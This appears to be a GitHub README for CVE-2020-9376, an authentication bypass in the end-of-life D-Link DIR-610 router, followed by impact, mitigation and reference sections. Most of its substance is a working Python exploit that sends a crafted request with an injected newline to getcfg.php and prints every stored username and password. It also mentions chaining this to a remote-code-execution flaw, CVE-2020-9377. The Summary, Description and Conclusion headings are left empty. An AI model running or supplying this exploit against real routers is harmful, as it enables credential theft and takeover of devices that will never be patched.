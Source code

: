 <p align="center">
  <h3 align="center">CVE-2020-9376</h3>
  <p align="center">Authentication bypass on DLINK 610 Router</p>
</p>

---

### Summary

---

### Description

---

### Exploit

```python
#!/usr/bin/python

import xml.etree.ElementTree as ET
import urllib2
import sys

def main(host, port):
    content = urllib2.urlopen('http://%s:%s/getcfg.php' % (host, port), 'SERVICES=DEVICE.ACCOUNT%0aAUTHORIZED_GROUP=1').read()
    root = ET.fromstring(content)

    for user in root.findall('./module/device/account/entry'):
        name = user.findall('./name')[0].text
        password = user.findall('./password')[0].text

        print 'User: %s\\\\nPassword: %s\\\\n\\\\n' % (name, password)

if __name__ == '__main__':
   [host, port] = sys.argv[1:3]
   main(host, port)
```

---

### Impact

An attacker can circumvent the authentication mechanisms of this device and gain access to the administration panel and also to restricted information, such as the users and passwords present on the device, later on, they can exploit the CVE-2020-9377 vulnerability of RCE.

---
 
### Mitigation

While D-Link is aware of vulnerabilities involving DIR-610, these products have reached End of Life (EoL)/End of Support (EoS) and there is no extended support or development for them. D-Link will not be able to resolve device or firmware issues as all development and customer support has ceased.

The DIR-610 Rev. Ax reached its End of Support Date in 2014, it is no longer supported and firmware development has stopped, all consumers still using the product should retire it and immediately replace the device.

---

### Conclusion


---

### References

1. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9376
2. https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10182
3. https://www.dlink.com.br/produto/dir-610/
4. https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication
5. https://portswigger.net/web-security/authentication
